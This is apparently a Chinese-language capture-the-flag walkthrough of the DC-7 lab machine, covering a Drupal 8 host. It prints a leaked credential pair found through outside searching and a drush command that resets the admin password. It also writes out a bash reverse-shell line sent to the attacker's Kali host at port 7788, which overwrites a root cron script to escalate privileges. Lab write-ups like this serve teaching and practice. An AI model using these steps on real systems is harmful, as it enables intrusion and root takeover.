


## DC-7 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-7          | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`


### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Drupal 8** CMS


经过 OSINT 搜索得知该版本存在 **RCE** 漏洞，但是测试时并不能成功（现在看来原因是不支持 PHP）。此外作者提示我们不要用暴力破解和字典攻击，而是思考该虚拟机之外的东西，说的明白点，就是进行外网信息收集

> 谁知道我发现 `@DC7USER` 这串字符的重要性花了多久，╯︿╰

```
If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.

What you will need to do, is to think "outside" of the box.
```


在该项目的 *config.php* 文件中存在一个用户名和密码：`dc7use:MdR3xOgB7#dW`。于是使用该账户进行 ssh 登录后，发现 *mbox* 文本文件


根据文本信息，我们知道 root 账户的 `cron` 定时任务会定时运行 `/opt/scripts/backups.sh` 脚本


不过通过查看该文本权限知道当前用户不具备写能力，并且该文件的用户组是 *www-data*，因此我们下一步就是切换到 *www-data* 用户组里的用户，然后修改该脚本，这样 root 账户下的定时任务就会执行该脚本

由于系统不存在 `adduser` 工具导致新建账户的方法不可行，那么就只有修改 *www-data* 账户的密码，因此使用系统中的 `drush`这一工具修改密码（查看环境变量）

`drush user-password admin --password="isdof123"`



使用 *admin* 账户密码登录 Drupal 后台。尝试过上传图片马，不过发现不支持 PHP，那么接下来我们可以安装 [PHP 模块](
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz)

 





### Getshell

既然已经安装好PHP模块，并且启用了该模块，那么我们就可以新建 php 文件，而不必上传图片马


同时在 Kali 上监听 **7788** 端口，于是我们就可以拿到 *www-data* 的 shell 


### 提权

之后执行命令修改 *backups.sh* 脚本

`echo "bash -c 'bash -i >& /dev/tcp/192.168.1.112/7788 0>&1' " > /opt/scripts/backups.sh`

等待一段时间就可以取得 root 权限


